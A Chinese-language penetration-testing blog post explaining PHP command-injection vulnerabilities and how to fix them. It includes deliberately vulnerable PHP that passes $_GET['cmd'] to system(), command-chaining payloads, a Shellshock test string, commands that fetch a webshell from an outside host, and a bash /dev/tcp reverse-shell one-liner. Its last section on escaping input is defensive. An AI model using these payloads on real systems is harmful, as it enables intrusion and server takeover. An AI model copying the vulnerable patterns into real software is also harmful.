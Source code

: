 +++
date = "2016-07-24T14:32:51+08:00"
description = ""
draft = false
tags = ["命令执行"]
title = "命令执行漏洞"
topics = ["Pentest"]

+++

### 0x00 命令执行
```
应用有时需要调用一些执行系统命令的函数，如PHP中的system、exec、shell_exec、
passthru、popen、proc_popen等，当用户能控制这些函数中的参数时，就可以将恶意系统命令
拼接到正常命令中，从而造成命令执行攻击，这就是命令执行漏洞。
```

### 0x01 利用条件
1. 应用调用执行系统命令的函数
2. 将用户输入作为系统命令的参数拼接到了命令行中
3. 没有对用户输入进行过滤或过滤不严

### 0x02 漏洞分类
1. 代码层过滤不严  
    商业应用的一些核心代码封装在二进制文件中，在web应用中通过system函数来调用：  
    system("/bin/program \-\-arg $arg");
2. 系统的漏洞造成命令执行  
    bash破壳漏洞(CVE-2014-6271)  
    执行```env x='() { :;}; echo vulnerable' bash -c "echo this is a test"```后  
    若输出vulnerable则证明存在漏洞
3. 调用的第三方组件存在代码执行漏洞  
    如WordPress中用来处理图片的ImageMagick组件  
    JAVA中的命令执行漏洞(struts2/ElasticsearchGroovy等)  
    ThinkPHP命令执行

### 0x03 漏洞危害
1. 继承Web服务程序的权限去执行系统命令或读写文件
2. 反弹shell
3. 控制整个网站甚至控制服务器
4. 进一步内网渗透
5. 等等

### 0x04 漏洞挖掘
可以google hacking  
尝试：filetype:action或filetype:do来找struts2

### 0x05 漏洞可能代码(以system为例)
```php
1. system("$arg");  //直接输入即可
2. system("/bin/prog $arg");  //直接输入;ls
3. system("/bin/prog -p $arg");  //和2一样
4. system("/bin/prog --p=\"$arg\"");  //可以输入";ls;"
5. system("/bin/prog --p='$arg'");  //可以输入';ls;'

在Linux上，上面的;也可以用|、||、&、&&代替
    ;前面的执行完执行后面的(ping -c 1 10.11.11.11;whoami)
    |是管道符，显示后面的执行结果(ping -c 1 10.11.11.11|whoami)
    ||当前面的执行出错时执行后面的(ping -c 1 a.a.a||whoami)
    &会把前面的放在后台执行，然后执行后面的(ping -c 1 10.11.11.11&whoami)
    &&前面的语句为假则直接出错，后面的也不执行(ping -c 1 10.11.11.11&&whoami)

在Windows上，不能用;可以用|、||、&、&&代替
    |直接执行后面的语句(ping -n 1 10.11.11.11|whoami)
    ||前面出错才执行后面的(ping -n 1 a.a.a||whoami)
    &前面执行完执行后面的(ping -n 1 10.11.11.11&whoami)
    &&前面的语句为假则直接出错，后面的也不执行(ping -n 1 10.11.11.11&&whoami)
```

### 0x06 漏洞利用
* 示例一
```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("$arg");
    }
?>
```
![命令执行示例1](/img/post/command_execution1.png)

* 示例二
```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ping -c 3 $arg");
    }
```
![命令执行示例2](/img/post/command_execution2.png)

* 示例三
```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ls -al \"$arg\"");
    }
```
![命令执行示例3](/img/post/command_execution3.png)
注：若引号被转义，则可以用<b>\`id\`</b>来执行

* 示例四
```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ls -al '$arg'");
    }
```
![命令执行示例4](/img/post/command_execution4.png)

### 0x07 其他
* 动态函数调用  
在cmd.php中的代码如下：

```php
<?php
    $fun = $_GET['fun'];
    $par = $_GET['par'];
    $fun($par);
?>

//提交http://localhost/cmd.php?fun=system&par=net user，最终执行的是system("net user")
```

### 0x08 关于获取webshell
**要有写权限！**
```
1.得到当前或绝对路径(可以用pwd)
2.写文件:
    用?cmd=echo "<?php phpinfo()?>" > /var/www/html/info.php
    或?cmd=wget -O /var/www/html/info.php http://www.xx.com/phpinfo.txt
    或?cmd=curl http://www.xx.com/phpinfo.txt > /var/www/html/info.php
```

### 0x09 反弹shell
```
远程执行nc -vlp 8888
?cmd=bash -i >& /dev/tcp/10.0.0.1/8888 0>&1
```

### 0x0A 漏洞修复
1. 尽量少用执行命令的函数或者直接禁用
2. 参数值尽量使用引号包括
3. 在使用动态函数之前，确保使用的函数是指定的函数之一
4. 在进入执行命令的函数/方法之前，对参数进行过滤，对敏感字符进行转义

```php
<?php
    $arg = $_GET['cmd'];
    // $arg = addslashes($arg);
    $arg = escapeshellarg($arg);  //拼接前就处理
    if ($arg) {
        system("ls -al '$arg'");
    }
?>
```